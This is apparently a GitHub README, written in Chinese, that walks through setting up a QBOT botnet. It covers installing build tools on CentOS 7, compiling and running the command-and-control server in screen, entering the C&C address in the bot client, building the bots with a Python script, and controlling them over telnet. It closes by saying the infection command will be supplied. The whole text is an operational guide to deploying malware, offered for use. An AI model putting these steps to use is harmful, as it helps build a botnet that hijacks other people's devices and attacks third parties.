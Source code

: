# 非常哈基米的僵尸网络(QBOT)  
`首先你得有一个centos 7系统`  
然后安装依赖  
```bash
centos的源一般都已经失效了，除非你真的不怕死，你可以用阿里云或者腾讯云，来运行次僵尸网络
备用centos7源安装方式:
curl -o /etc/yum.repos.d/CentOS-Base.repo

http://mirrors.aliyun.com/repo/Centos-7.repo
yum update -y
yum install epel-release -y
yum install vim screen gcc perl wget lbzip bzip2 unzip httpd -y
```
## 然后编译cnc主端  
```bash
gcc server.c -o server -pthread
```
## 编译完主端你就可以先运行了
```bash
#创建一个登录文件
vi login.txt
#格式:
用户名 密码
#然后启动主端
screen ./server 监听僵尸端口 线程 telnet连接端口
ctrl+a+d退出
如果你想查看主端可以先输入指令
screen -ls
查看会话
然后
screen -r 会话名
```
## 更换client.c的cnc 地址和端口
```c
client.c:


unsigned char *commServer[] = {"ip:port", "ip:port"};

```
## 编译僵尸
```python
python bot_install.py
```
## 连接cnc端
```
目前Windows自带的telnet连接不怎么行，跟坨臭屎一样
所以你需要一个Linux系统，乌班图或者centos
有些不自带telnet，自己去搜安装方式
安装完之后
telnet 你的服务器的公网ip 你设置的连接端口
```
## 教程结束，完结撒花
`完事就是这么简单`  
`传马命令他会给出的`  
`后面僵尸自己弄`  
